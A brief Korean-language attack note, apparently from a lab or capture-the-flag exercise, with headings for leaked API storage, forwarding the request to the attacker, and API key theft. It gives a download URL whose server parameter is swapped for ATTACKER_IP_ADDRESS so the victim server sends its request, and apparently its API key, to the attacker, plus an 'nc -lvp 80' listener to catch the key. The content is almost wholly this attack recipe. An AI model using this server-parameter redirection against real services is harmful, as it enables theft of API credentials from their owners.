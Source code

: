# 유출된 api 스토리지

http://IP_ADDRESS:8087/download?server=secure-file-storage.com:8087&id=75482342

# 공격자에게 요청 전달

http://VICTIM_IP_ADDRESS:8087/download?server=ATTACKER_IP_ADDRESS&id=75482342

# api 키 탈취

nc -lvp 80

#
